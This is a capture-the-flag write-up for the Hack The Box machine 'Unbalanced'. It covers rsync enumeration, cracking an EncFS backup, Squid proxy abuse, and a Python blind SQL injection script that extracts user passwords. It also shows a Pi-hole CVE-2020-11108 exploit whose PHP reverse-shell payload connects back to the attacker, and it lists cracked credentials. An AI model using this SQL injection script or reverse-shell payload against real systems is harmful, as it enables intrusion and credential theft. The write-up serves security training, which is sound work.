




Unbalanced

Enumeration
Nmap
Started with the following nmap command:
nmap -sV -sC -p 1-10000 -oA nmap.res -v unbalanced.htb
And here is the result
Nmap scan report for unbalanced.htb (10.10.10.200)
Host is up, received conn-refused (0.000054s latency).
Scanned at 2020-11-04 09:22:55 EST for 170628s
Not shown: 9574 closed ports, 423 filtered ports
Reason: 9574 conn-refused, 422 net-unreaches and 1 no-response
PORT STATE SERVICE REASON VERSION
22/tcp open tcpwrapped syn-ack
|_ssh-hostkey: ERROR: Script execution failed (use -d to debug)
873/tcp open tcpwrapped syn-ack
3128/tcp open tcpwrapped syn-ack
We basically have three ports open (22 - SSH, 873 - ???, 3128 - ???). We’ll know about the unidentified ports later.
Rsync
We first check the port 873. Since it wasn’t specified what service it is by the nmap, we can check it ourselves what service it might be running. We can check it here. It turns out this port might be an rsync service. We can quickly check if we can list some directories or files through this command:
rsync --list-only rsync://10.10.10.200:873/
After the execution, we are able to list a directory!
conf_backups EncFS-encrypted configuration backups
Let’s download the contents.
Retrieving “conf_backups”
We can retrieve the “conf_backups” through this command:
mkdir conf_backups
cd conf_backups
rsync -a rsync://10.10.10.200:873/conf_backups ./
After that, we can list the contents of the directory. However, it seems the files are gibberish.
rsync/conf_backups$ ls -la
total 632
drwxr-xr-x 2 altelus altelus 4096 Apr 4 2020 .
drwxr-xr-x 5 altelus altelus 4096 Nov 4 10:40 ..
-rw-r--r-- 1 altelus altelus 154 Apr 4 2020 0K72OfkNRRx3-f0Y6eQKwnjn
-rw-r--r-- 1 altelus altelus 56 Apr 4 2020 27FonaNT2gnNc3voXuKWgEFP4sE9mxg0OZ96NB0x4OcLo-
-rw-r--r-- 1 altelus altelus 190 Apr 4 2020 2VyeljxHWrDX37La6FhUGIJS
-rw-r--r-- 1 altelus altelus 537 Apr 4 2020 3cdBkrRF7R5bYe1ZJ0KYy786
-rw-r--r-- 1 altelus altelus 386 Apr 4 2020 3E2fC7coj5,XQ8LbNXVX9hNFhsqCjD-g3b-7Pb5VJHx3C1
-rw-r--r-- 1 altelus altelus 560 Apr 4 2020 3xB4vSQH-HKVcOMQIs02Qb9,
-rw-r--r-- 1 altelus altelus 275 Apr 4 2020 4J8k09nLNFsb7S-JXkxQffpbCKeKFNJLk6NRQmI11FazC1
-rw-r--r-- 1 altelus altelus 463 Apr 4 2020 5-6yZKVDjG4n-AMPD65LOpz6-kz,ae0p2VOWzCokOwxbt,
-rw-r--r-- 1 altelus altelus 2169 Apr 4 2020 5FTRnQDoLdRfOEPkrhM2L29P
-rw-r--r-- 1 altelus altelus 238 Apr 4 2020 5IUA28wOw0wwBs8rP5xjkFSs
-rw-r--r-- 1 altelus altelus 1277 Apr 4 2020 6R1rXixtFRQ5c9ScY8MBQ1Rg
-rw-r--r-- 1 altelus altelus 108 Apr 4 2020 7-dPsi7efZRoXkZ5oz1AxVd-Q,L05rofx0Mx8N2dQyUNA,
-rw-r--r-- 1 altelus altelus 1339 Apr 4 2020 7zivDbWdbySIQARaHlm3NbC-7dUYF-rpYHSQqLNuHTVVN1
-rw-r--r-- 1 altelus altelus 1050 Apr 4 2020 8CBL-MBKTDMgB6AT2nfWfq-e
-rw-r--r-- 1 altelus altelus 29 Apr 4 2020 8e6TAzw0xs2LVxgohuXHhWjM
-rw-r--r-- 1 altelus altelus 152 Apr 4 2020 8XDA,IOhFFlhh120yl54Q0da
-rw-r--r-- 1 altelus altelus 5721 Apr 4 2020 9F9Y,UITgMo5zsWaP1TwmOm8EvDCWwUZurrL0TwjR,Gxl0
-rw-r--r-- 1 altelus altelus 2980 Apr 4 2020 A4qOD1nvqe9JgKnslwk1sUzO
...
...
-rw-r--r-- 1 altelus altelus 1268 Apr 4 2020 dNTEvgsjgG6lKBr8ev8Dw,p7
-rw-r--r-- 1 altelus altelus 2359 Apr 4 2020 ECXONXBBRwhb5tYOIcjjFZzh
-rw-r--r-- 1 altelus altelus 1297 Apr 2 2020 .encfs6.xml
-rw-r--r-- 1 altelus altelus 1464 Apr 4 2020 F4F9opY2nhVVnRgiQ,OUs-Y0
-rw-r--r-- 1 altelus altelus 354 Apr 4 2020 FGZsMmjhKz7CJ2r-OjxkdOfKdEip4Gx2vCDI24GXSF5eB1
-rw-r--r-- 1 altelus altelus 135 Apr 4 2020 -FjZ6-6,Fa,tMvlDsuVAO7ek
-rw-r--r-- 1 altelus altelus 3275 Apr 4 2020 FSXWRSwW6vOvJ0ExPK0fXJ6F
-rw-r--r-- 1 altelus altelus 422 Apr 4 2020 gK5Z2BBMSh9iFyCFfIthbkQ6
...
...
Of all these, there is only one file that is readable and it’s .encfs6.xml. It turns out this is an EncFs.
EncFS is a userspace stackable cryptographic file-system similar to eCryptfs,
We need somehow to decrypt and mount this filesystem to be used.
Cracking the encrypted “conf_backups”
We can crack the encrypted filesystem by using encfs2john to format a file that will be compatible to john the ripper.
Using “encfs2john” to generate hash
Using the encfs2john, we need to point the name of the directory of the encrypted filesystem (conf_backups in this case). Then, we have to output in a file:
/usr/share/john/encfs2john.py conf_backups/ > encfs.crackable
And then, we proceed with cracking it using john the ripper
sudo john --wordlist /usr/share/wordlists/rockyou.txt encfs.crackable --format=encfs
After waiting, JTR has actually found the password:
Warning: invalid UTF-8 seen reading /usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (EncFS [PBKDF2-SHA1 128/128 AVX 4x AES])
Cost 1 (iteration count) is 580280 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
bubblegum (conf_backups/)
1g 0:00:02:07 DONE (2020-12-05 09:27) 0.007865g/s 18.37p/s 18.37c/s 18.37C/s loveya..puppies
Password is bubblegum. We now have to mount it
Mounting the decrypted “conf_backups”
We can edit /etc/fstab then use mount command to mount the EncFS.
# /etc/fstab: static file system information.
...
...
...
# the settings below is appended
encfs#/home/altelus/HTB/boxes/Unbalanced/enums/rsync/conf_backups /mnt/decr_conf_backups fuse noauto,user 0 0
More info here
Then we proceed to mounting
$ sudo mount /mnt/decr_conf_backups/
EncFS Password:
Enter the password upon mount. Let’s check if it worked by visiting /mnt/decr_conf_backups
cd /mnt/decr_conf_backups/
ls -lart
total 628
-rw-r--r-- 1 altelus altelus 246 Apr 4 2020 dconf
-rw-r--r-- 1 altelus altelus 100 Apr 4 2020 x86_64-linux-gnu.conf
-rw-r--r-- 1 altelus altelus 44 Apr 4 2020 libc.conf
-rw-r--r-- 1 altelus altelus 38 Apr 4 2020 fakeroot-x86_64-linux-gnu.conf
-rw-r--r-- 1 altelus altelus 435 Apr 4 2020 logrotate.conf
-rw-r--r-- 1 altelus altelus 332 Apr 4 2020 ldap.conf
-rw-r--r-- 1 altelus altelus 144 Apr 4 2020 kernel-img.conf
-rw-r--r-- 1 altelus altelus 4491 Apr 4 2020 main.conf
-rw-r--r-- 1 altelus altelus 120 Apr 4 2020 network.conf
-rw-r--r-- 1 altelus altelus 927 Apr 4 2020 input.conf
-rw-r--r-- 1 altelus altelus 604 Apr 4 2020 deluser.conf
-rw-r--r-- 1 altelus altelus 414 Apr 4 2020 user-dirs.conf
-rw-r--r-- 1 altelus altelus 280 Apr 4 2020 fuse.conf
-rw-r--r-- 1 altelus altelus 87 Apr 4 2020 resolv.conf
-rw-r--r-- 1 altelus altelus 195 Apr 4 2020 modules.conf
-rw-r--r-- 1 altelus altelus 34 Apr 4 2020 ld.so.conf
-rw-r--r-- 1 altelus altelus 2584 Apr 4 2020 gai.conf
...
-rw-r--r-- 1 altelus altelus 1260 Apr 4 2020 ucf.conf
-rw-r--r-- 1 altelus altelus 1628 Apr 4 2020 system.conf
-rw-r--r-- 1 altelus altelus 2041 Apr 4 2020 semanage.conf
-rw-r--r-- 1 altelus altelus 510 Apr 4 2020 nsswitch.conf
-rw-r--r-- 1 altelus altelus 281 Apr 4 2020 udev.conf
-rw-r--r-- 1 altelus altelus 316553 Apr 4 2020 squid.conf
-rw-r--r-- 1 altelus altelus 230 Apr 4 2020 debian.conf
-rw-r--r-- 1 altelus altelus 5713 Apr 4 2020 ca-certificates.conf
-rw-r--r-- 1 altelus altelus 2179 Apr 4 2020 time.conf
-rw-r--r-- 1 altelus altelus 419 Apr 4 2020 sepermit.conf
-rw-r--r-- 1 altelus altelus 2972 Apr 4 2020 pam_env.conf
...
...
The files are finally decrypted! We just have to copy the files so that we don’t have to mount it again.
Squid HTTP Proxy
Another port that we are not familiar with is the port 3128. It turns out it is a Squid Proxy. We can check it here. We actually have seen a squid.conf file in our decrypted files earlier. Let’s check it.
Squid configuration file
Upon opening the squid.conf, there are quite a number of interesting things
Cachemgr_passwd section
...
#Default:
# No password. Actions which require password are denied.
cachemgr_passwd Thah$Sh1 menu pconn mem diskd fqdncache filedescriptors objects vm_objects counters 5min 60min histograms cbdata sbuf events
cachemgr_passwd disable all
...
According to squid-cach.org, we actually have another password.

We should be able access the squid’s cache management system with this password.
Allowed to access internal servers
It is defined at line 1410 which domains or ips are allowed to be accessed through http:
$ tail -n+1410 squid.conf | head -n 10
# Allow access to intranet
acl intranet dstdomain -n intranet.unbalanced.htb
acl intranet_net dst -n 172.16.0.0/12
http_access allow intranet
http_access allow intranet_net
...
As we can see, through the domain name, we can only access intranet.unbalanced.htb. Let’s access it.
Setting our proxy (FoxyProxy is used here)
But before accessing, let’s set our http proxy to the squid. Here is my FoxyProxy settings

After setting the proxy up, let’s access the intranet:

It’s a login page! We will come back to it later. Remember that we are not only given with accessible domain but also with accessible range of IP. We also need to check them first
Squid Management Enumeration
Let’s now check the actions we can do with the squid cache manager with the password we have (password: Thah$Sh1). Let’s use the squidclient cli to tinker with the squid cache manager.
Let’s check first the menu.
squidclient -h 10.10.10.200 -w 'Thah$Sh1' mgr:menu
HTTP/1.1 200 OK
Server: squid/4.6
Mime-Version: 1.0
Date: Sat, 05 Dec 2020 15:38:38 GMT
Content-Type: text/plain;charset=utf-8
Expires: Sat, 05 Dec 2020 15:38:38 GMT
Last-Modified: Sat, 05 Dec 2020 15:38:38 GMT
X-Cache: MISS from unbalanced
X-Cache-Lookup: MISS from unbalanced:3128
Via: 1.1 unbalanced (squid/4.6)
Connection: close
index Cache Manager Interface disabled
menu Cache Manager Menu protected
offline_toggle Toggle offline_mode setting disabled
shutdown Shut Down the Squid Process disabled
reconfigure Reconfigure Squid disabled
rotate Rotate Squid Logs disabled
pconn Persistent Connection Utilization Histograms protected
mem Memory Utilization protected
...
...
cbdata Callback Data Registry Contents protected
sbuf String-Buffer statistics protected
events Event Queue protected
netdb Network Measurement Database disabled
asndb AS Number Database disabled
...
As we can see, our access is pretty limited. What we can access here (with “protected”) is also defined in the squid.conf that we retrieved earlier. Let’s start checking them
Squid “fqdncache” to check any internal server
After a lot of checking, the action that should give us the most valuable info is the “fqdncache”.
$ squidclient -h 10.10.10.200 -w 'Thah$Sh1' mgr:fqdncache
HTTP/1.1 200 OK
Server: squid/4.6
Mime-Version: 1.0
...
...
Address Flg TTL Cnt Hostnames
127.0.1.1 H -001 2 unbalanced.htb unbalanced
::1 H -001 3 localhost ip6-localhost ip6-loopback
172.31.179.2 H -001 1 intranet-host2.unbalanced.htb
172.31.179.3 H -001 1 intranet-host3.unbalanced.htb
127.0.0.1 H -001 1 localhost
172.17.0.1 H -001 1 intranet.unbalanced.htb
ff02::1 H -001 1 ip6-allnodes
ff02::2 H -001 1 ip6-allrouters
We can see here that there are more domain to IP mapping are present for internal servers! We should also notice that there is the intranet.unbalanced.htb that we are allowed to access as it is, a domain name, earlier at squid.conf. Also notice the intranet-host[2-3].unbalanced.htb domain names are not defined in squid.conf! But they are technically allowed through the allowed IP address range.
Intranet Login
Let’s go back to the intranet login. Let’s just put “admin” as username and “password” as credentials just to check its behavior.

After submitting, nothing seems to happen. It’s as if the intranet login portal did not respond to our login. No prompt if we got the credentials correct or not. Let’s check the http response headers.

Notice that the responding server is the intranet-host2.unbalanced.htb and not intranet.unbalanced.htb. It might mean that the infrastructure may be using Load Balancer to pass the requests from the intranet.unbalanced.htb to the other servers which are intranet-host2.unbalanced.htb and intranet-host3.unbalanced.htb. However, if there is host2 and host3, there must be a host1. Let’s try accessing that.
Accessing “intranet-host1.unbalanced.htb”
The domain name itself is not defined but remember that we can access the servers themselves through the IP address since we are allowed by Squid http proxy. If 172.31.179.2 = intranet-host2.unbalanced.htb and 172.31.179.3 = intranet-host3.unbalanced.htb, then there is a high possibility that 172.31.179.1 = intranet-host1.unbalanced.htb. Let’s access the 172.31.179.1

Host1 actually exists! However, there is no intranet login. One step back, we can see that the url changes when we try to access intranet.unbalanced.htb. We are being redirected to /intranet.php

Now let’s just try accessing the intranet.php in 172.31.179.1. (http://172.31.179.1/intranet.php)
After accessing, indeed the intranet.php page exists but there seems to be no difference than the other servers. Let’s now try logging in and check if we can now receive a different response this time. (still “admin” as username and “password” as password)

There is now a login response! Let’s now tinker this login form if it has a vulnerability or if we can use our credentials earlier (although we don’t have a legitimate username)
Blind SQLi against server 172.31.179.1 Form
We first need to fuzz for SQL Injection vulnerability that might be existing in the form. We will be using burp in this.
Let’s first set our Upstream Proxy Servers to Squid Proxy(10.10.10.200 - 3128)

Then let’s intercept the login and then send to Repeater

After we send it to Repeater, paste the whole requests to Intruder -> Positions

Then we will get our SQLi fuzz list from here. Then past it to Intruder -> Payloads

Then we can “Start Attack”. After it is finished, we will be checking the length of response.

Out of these, there are only 3 lengths: 7079, 7185, and 7852. We are of most concern with with the largest since if we managed to leak data, it goes to say that the length of data expected to be received is also larger or longer. So let’s check the response of the intranet login portal by redoing the payload at Password (remember the position at the left - it is a value of 2) in the login page with payload 1’or’1’=’1.

Leaking passwords for every user
From the payload we have used, we know that the resulting query is true since it is leaking all the usernames and false when the data length is low. We can leak the password by having a conditional: <nth character of Password = x> AND Username=<username>. This will convert to the following blind sqli payload: ’ or substring(Password, {}, 1) = {} and Username=’{}’ and ‘a. I created a python script to automate it.
import string
import sys
import requests
proxies = {
"http" : "http://10.10.10.200:3128"
}
def blind_attack(user, printable, pass_index):
global proxies
if printable == "'":
char = '"\'"'
else:
char = "'{}'".format(printable)
exploit_str = "' or substring(Password, {}, 1) = {} and Username='{}' and 'a".format(pass_index, char, user)
data = {
"Username" : user,
"Password" : exploit_str
}
resp = requests.post("http://172.31.179.1/intranet.php", data=data, proxies=proxies)
if "Invalid" in resp.text:
return False
return printable
def print_status(user, accumulated, current, total, curr_char):
print("[{} - {}] {} --> {}/{}".format(user, curr_char, accumulated, current, total), end="\r")
user_file = sys.argv[1]
with open(user_file, "r") as rf:
users = rf.read().strip().split("\n")
accumulated_pass = {}
for user in users:
accumulated_pass[user] = ""
pass_index = 1
count = 0
while count < len(string.printable[:-5]):
print_status(user,accumulated_pass[user], count+1, len(string.printable[:-5]), string.printable[count])
printable = string.printable[count]
ret_char = blind_attack(user, printable, pass_index)
if ret_char != False:
accumulated_pass[user] += ret_char
pass_index += 1
count = 0
continue
count += 1
print("")
print(accumulated_pass)
We managed to leak usernames! Nice! However, we can take this further by leaking the passwords. We can get the usernames as a list. We can run the code as follows:
$ python3 blind.py usernames.txt
[rita - ] password01! --> 95/95
[jim - ] stairwaytoheaven --> 95/95
[bryan - ] ireallyl0vebubblegum!!! --> 95/95
[sarah - ] sarah4evah --> 95/95
We now have our passwords! Let’s use them with the ssh!
User Bryan
The one that worked was actually bryan’s (bryan:ireallyl0vebubblegum!!!)
$ ssh bryan@unbalanced.htb
bryan@unbalanced.htb's password:
Linux unbalanced 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2+deb10u1 (2020-06-07) x86_64
The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.
Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sat Dec 5 07:36:55 2020 from 10.10.14.33
bryan@unbalanced:~$
At this point, we can get the user flag.
bryan@unbalanced:~$ ls -la
total 32
drwxr-xr-x 3 bryan bryan 4096 Jun 17 11:35 .
drwxr-xr-x 3 root root 4096 Jun 17 11:35 ..
lrwxrwxrwx 1 root root 9 Apr 3 2020 .bash_history -> /dev/null
-rw-r--r-- 1 bryan bryan 220 Apr 2 2020 .bash_logout
-rw-r--r-- 1 bryan bryan 3526 Apr 2 2020 .bashrc
drwx------ 3 bryan bryan 4096 Apr 2 2020 .gnupg
-rw-r--r-- 1 bryan bryan 807 Apr 2 2020 .profile
-rw-r--r-- 1 bryan bryan 798 Jun 17 11:35 TODO
-rw-r--r-- 1 root root 33 Dec 5 06:48 user.txt
bryan@unbalanced:~$
Bryan’s Home “TODO”
Once at the home directory, there is an interesting file named “TODO”
bryan@unbalanced:~$ cat TODO
############
# Intranet #
############
* Install new intranet-host3 docker [DONE]
* Rewrite the intranet-host3 code to fix Xpath vulnerability [DONE]
* Test intranet-host3 [DONE]
* Add intranet-host3 to load balancer [DONE]
* Take down intranet-host1 and intranet-host2 from load balancer (set as quiescent, weight zero) [DONE]
* Fix intranet-host2 [DONE]
* Re-add intranet-host2 to load balancer (set default weight) [DONE]
- Fix intranet-host1 [TODO]
- Re-add intranet-host1 to load balancer (set default weight) [TODO]
###########
# Pi-hole #
###########
* Install Pi-hole docker (only listening on 127.0.0.1) [DONE]
* Set temporary admin password [DONE]
* Create Pi-hole configuration script [IN PROGRESS]
- Run Pi-hole configuration script [TODO]
- Expose Pi-hole ports to the network [TODO]
bryan@unbalanced:~$
Bryan is setting up Pi-hole. We can check if the Pi-hole is still up or accepting connections
Check if PiHole is open and operating
Open ports looking for Pi-Hole
Since netstat is not available, we can use ss -lnt command. -l is for listening, -n is for numbers only, and -t is for tcp;
bryan@unbalanced:~$ ss -lnt
State Recv-Q Send-Q Local Address:Port Peer Address:Port
LISTEN 0 5 0.0.0.0:873 0.0.0.0:*
LISTEN 0 128 127.0.0.1:8080 0.0.0.0:*
LISTEN 0 128 127.0.0.1:5553 0.0.0.0:*
LISTEN 0 32 0.0.0.0:53 0.0.0.0:*
LISTEN 0 128 0.0.0.0:22 0.0.0.0:*
LISTEN 0 128 *:3128 *:*
LISTEN 0 5 [::]:873 [::]:*
LISTEN 0 32 [::]:53 [::]:*
LISTEN 0 128 [::]:22 [::]:*
bryan@unbalanced:~$
There seems to be an port 8080, might be a webpage or the Pi-hole web UI. Let’s do a quick curl.
bryan@unbalanced:~$ curl http://localhost:8080 ; echo
[ERROR]: Unable to parse results from <i>queryads.php</i>: <code>Unhandled error message (<code>Invalid domain!</code>)</code>
bryan@unbalanced:~$
It is responding to http. Let’s use the SSH tunneling.
Using SSH tunneling for http port 8080
$ ssh bryan@unbalanced.htb -L 8080:127.0.0.1:8080 -N
bryan@unbalanced.htb\'s password:
Let’s now access it through the browser.

It turns out we need to append “/admin” to get to pi-hole admin interface. SOURCE

Pi-hole Login
After appending the “/admin” we should now be able to get to login page admin by clicking on the login from the left side.

Let’s try “admin” for password.

LOL it worked!
Pi-hole exploit - CVE-2020-11108
After logging in and a little bit of searching, it turns out there is a Pi-hole exploit available for versions below 4.4. Checking the current version:

This version is vulnerable!
Getting the PHPSESSID
We have to get first the PHPSESSID from the cookies assigned to use by the server. It will be needed by the POC

Changed payload from python3 to bash
After downloading the exploit and execute it, no response from the server. So I had changed the payload from python3 to bash
...
# Payload taken from http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
# I opted to use the Python3 reverse shell one liner over the full PHP reverse shell.
#shell_payload = """<?php
# shell_exec("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\\\"%s\\\",%s));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\\"/bin/sh\\",\\"-i\\"]);'")
#?>
#""" %(LOCAL_IP, LOCAL_PORT)
shell_payload = """<?php
$sock=fsockopen("{}",{});
exec("bash -i <&3 >&3 2>&3");
?>
""".format(LOCAL_IP, LOCAL_PORT)
...
Save it and then reexecute the code. Just make sure that there is a listener on our side. I used netcat for it. The execution of exploit with new payload:
sudo python3 48443_orig.py 7bfnctcni8uou4c0sb9davv863 'http://localhost:8080' 10.10.14.33 40000
[+] Put Root Stager Success
[+] Received First Callback
[+] Received Second Callback
[+] Uploading Root Payload
[+] Put Shell Stager Success
[+] Received Third Callback
[+] Received Fourth Callback
[+] Uploading Shell Payload
[+] Triggering Exploit
And this is what will be expected on the listener side
$ nc -lvp 40000
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::40000
Ncat: Listening on 0.0.0.0:40000
Ncat: Connection from 10.10.10.200.
Ncat: Connection from 10.10.10.200:39560.
bash: cannot set terminal process group (527): Inappropriate ioctl for device
bash: no job control in this shell
root@pihole:/var/www/html/admin/scripts/pi-hole/php# whoami
whoami
root
Pi-hole Docker as root
Even though we are root, this is not the actual host. So we need to enumerate for leverage.
Getting password from pi-hole config in home
At the home directory of root there is a config file containing a password.
root@pihole:/var/www/html/admin/scripts/pi-hole/php# cd
cd
root@pihole:~# ls -la
ls -la
total 132
drwxrwxr-x 1 root root 4096 Apr 5 2020 .
drwxr-xr-x 1 root root 4096 Jul 30 05:13 ..
lrwxrwxrwx 1 root root 9 Apr 4 2020 .bash_history -> /dev/null
-rw-r--r-- 1 root root 570 Jan 31 2010 .bashrc
-rw-r--r-- 1 root root 148 Aug 17 2015 .profile
-rw-r--r-- 1 root root 113876 Sep 20 2019 ph_install.sh
-rw-r--r-- 1 root root 485 Apr 6 2020 pihole_config.sh
root@pihole:~# cat pihole_config.sh
cat pihole_config.sh
#!/bin/bash
# Add domains to whitelist
/usr/local/bin/pihole -w unbalanced.htb
/usr/local/bin/pihole -w rebalanced.htb
# Set temperature unit to Celsius
/usr/local/bin/pihole -a -c
# Add local host record
/usr/local/bin/pihole -a hostrecord pihole.unbalanced.htb 127.0.0.1
# Set privacy level
/usr/local/bin/pihole -a -l 4
# Set web admin interface password
/usr/local/bin/pihole -a -p 'bUbBl3gUm$43v3Ry0n3!'
# Set admin email
/usr/local/bin/pihole -a email admin@unbalanced.htb
root@pihole:~#
The password is bUbBl3gUm$43v3Ry0n3!. Let’s try using it to login as root against the host machine.
SU Login to root from bryan
Let’s try logging in as bryan first then switch user to root.
$ ssh bryan@unbalanced.htb
bryan@unbalanced.htb's password:
Linux unbalanced 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2+deb10u1 (2020-06-07) x86_64
The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.
Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sat Dec 5 13:23:22 2020 from 10.10.14.33
bryan@unbalanced:~$ su root
Password:
root@unbalanced:/home/bryan# cd
root@unbalanced:~# ls -la
total 36
drwx------ 6 root root 4096 Apr 6 2020 .
drwxr-xr-x 18 root root 4096 Jun 17 14:08 ..
lrwxrwxrwx 1 root root 9 Apr 3 2020 .bash_history -> /dev/null
-rw-r--r-- 1 root root 570 Jan 31 2010 .bashrc
drwx------ 3 root root 4096 Apr 3 2020 .config
drwx------ 3 root root 4096 Apr 2 2020 .gnupg
drwxr-xr-x 3 root root 4096 Apr 3 2020 .local
-rw-r--r-- 1 root root 148 Aug 17 2015 .profile
-rw------- 1 root root 33 Dec 5 06:48 root.txt
drwx------ 2 root root 4096 Apr 6 2020 .ssh
root@unbalanced:~#
We now have pwned the machine! Thank you for reading :D
Sources:
- https://discourse.pi-hole.net/t/how-do-i-access-pi-holes-dashboard-admin-interface/3168
- https://www.exploit-db.com/exploits/48443
- https://www.exploit-db.com/exploits/48442
- http://squid-web-proxy-cache.1019090.n4.nabble.com/How-to-run-squidclient-td4670539.html
- https://medium.com/@minimalist.ascent/enumerating-rsync-servers-with-examples-cc3718e8e2c0
- https://www.speedguide.net/port.php?port=873
- https://www.digitalocean.com/community/tutorials/how-to-use-rsync-to-sync-local-and-remote-directories
- https://security.stackexchange.com/questions/98205/breaking-encfs-given-encfs6-xml
- https://wiki.archlinux.org/index.php/EncFS#User_friendly_mounting